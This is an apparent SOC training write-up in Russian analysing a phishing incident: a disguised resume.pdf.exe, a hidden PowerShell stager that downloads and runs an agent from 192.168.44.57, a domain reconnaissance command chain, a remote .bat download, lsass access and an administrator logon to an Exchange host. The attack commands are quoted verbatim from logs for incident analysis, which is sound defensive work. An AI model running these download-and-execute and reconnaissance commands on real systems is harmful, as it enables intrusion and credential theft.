




# SOC-Enigma

Описание: Система UserGate Log Analyzer зафиксировала зафиксировала подозрительную активность - фишинг с последующей компрометацией хоста

## Этап 1: Фишинг
**Время 3:39** Пользователь получает письмо на сервис OutLook и скачивает **Resume.zip**

```sh
-2022-08-02 03:39:22.234{289a599c-9c69-62e8-6e14-000000001900}9396C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeC:\Users\Bob\Downloads\Resume.zip2022-08-02 
```



### Этап 2: Зауск файла resume.pdf.exe пользователем и дальнейшее развитие атаки
В 3:39 был запущен файл **resume.pdf.exe**. Данный файл при запуске пытается установить соединение с хостом 192.168.44.57:8888. 

```sh
powershell.exe /c Start-Process -FilePath Resume.pdf.exe -ArgumentList '-server http://192.168.44.57:8888 -group red' -WindowStyle Hidden powershell.exe -ExecutionPolicy Bypass -C Clear-History;Clear
```



В 3:54 был создан процесс, который позволяет устанавливать связь с сервером.
Захвачен узел 81004481-b886-4e62-9b54-d9a2c9fef341.

```sh
HostApplication=powershell.exe -ExecutionPolicy Bypass -C if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};$server="http://0.0.0.0:8888";$socket="0.0.0.0:7010";$contact="tcp";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","manx.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");Get-Process | ? {$_.Path -like "C:\Users\Public\$name.exe"} | stop-process -f -ea $ErrAction;rm -force "C:\Users\Public\$name.exe" -ea $ErrAction;([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

### Этап 3: Разведка системы
В 3:55 была произведена разведка системы:

```sh
C:\Windows\System32\cmd.execmd.exe /C @echo off&echo ________________________________Whoami______________________________ &  whoami &echo ________________________________HostName______________________________  & hostname  & echo ________________________________IpConfig______________________________ & ipconfig /all  & echo ____________________________AllLocalUsers___________________________ & net user /domain  & echo _________________________AllUserInDomain___________________________ & net group /domain  & echo __________________________DomianAdmins_______________________________ & net group "domain admins" /domain  & echo _______________________ExchangetrustedMembers_______________________ & net group "Exchange Trusted Subsystem" /domain  & echo ________________________NetAccountDomain____________________________ & net accounts /domain  & echo ______________________________NetUser________________________________ & net user  & echo _______________________NetLocalGroupMembers________________________ & net localgroup administrators  & echo ________________________________netstat_______________________________ & netstat -an  & echo ______________________________tasklist________________________________ & tasklist  & echo _____________________________systeminfo_______________________________ & systeminfo  & echo ________________________________RDP___________________________________ & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"  & echo ________________________________Task__________________________________ & schtasks /query /FO List /TN "GoogleUpdatesTaskMachineUI" /V | findstr /b /n /c:"Repeat: Every:"  & echo ________________________________________AntiVirus______________________________ &WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### Этап 4: Загрузка вредоносного .bat файла

В 4:02 был создан процесс, связанный с файлом **0000000000.bat**, который впоследствии становится файлом **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C "wget http://192.168.44.57:8000/0000000000.bat -OutFile c:\windows\temp\1.bat
```



Также замечен файл **1.log**, который создается при работе **1.bat**. При этом происходит обращение к lsass, которое отмечается в панеле Events.
```sh
powershell.exe -ExecutionPolicy Bypass -C gc c:\windows\temp\1.log
```



Около 4:28 был выполнен вход с правами администратора. Вероятнее всего у злоумешленника был доступ к хосту ранее, так как за месяц до этого был сделан дамп lsass, который использоваля сейчас для звхвата:
```sh
Выполнена попытка входа в систему с явным указанием учетных данных.

Субъект:
	ИД безопасности:		S-1-5-21-2282938710-1989567394-2605000726-1662
	Имя учетной записи:		bob
	Домен учетной записи:		PENTEST
	Код входа:		0xEC1DC
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Были использованы учетные данные следующей учетной записи:
	Имя учетной записи:		Administrator
	Домен учетной записи:		
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Целевой сервер:
	Имя целевого сервера:	exchange.pentest.net
	Дополнительные сведения:	exchange.pentest.net

Сведения о процессе:
	Идентификатор процесса:		0x4
	Имя процесса:		

Сведения о сети:
	Сетевой адрес:	172.16.249.160
	Порт:			445
```

В период с 4 до 5 был захвачен хост, а также контроллер домена - узел 2861b798-eed1-40f8-8487-21c836ed782f.


### Тип атаки
**Тип угрозы:** НСД

**Возможное негативное воздействие:**
FD|CE|PI|МО 
-|-|-|-
8|8|10|8

**Рекомендации по обеспечению безопасности:** антивирус, проведение тренингов с сотрудниками на различные темы информационной безопасности.
